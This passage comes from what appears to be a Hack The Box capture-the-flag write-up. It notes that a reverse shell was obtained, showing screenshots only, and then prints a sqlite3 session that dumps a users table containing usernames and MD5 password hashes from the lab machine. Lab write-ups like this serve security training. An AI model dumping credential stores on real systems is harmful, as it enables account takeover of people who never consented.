 and voilà we have reverse shell, although user can't access home directory of user fismathack

![Desktop View](/assets/img/2025-10-28-HTB-Converser/reverseshell.png)
_Reverse shell_

![Desktop View](/assets/img/2025-10-28-HTB-Converser/reverseshell2.png)
_Without access to flag_


## getting user password

Let's try something else. We know where the database is located, so let's go there:

```bash
$ sqlite3 users.db
sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> select * from users
select * from users
   ...> ;
;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|admin|21232f297a57a5a743894a0e4a801fc3
sqlite> 
```
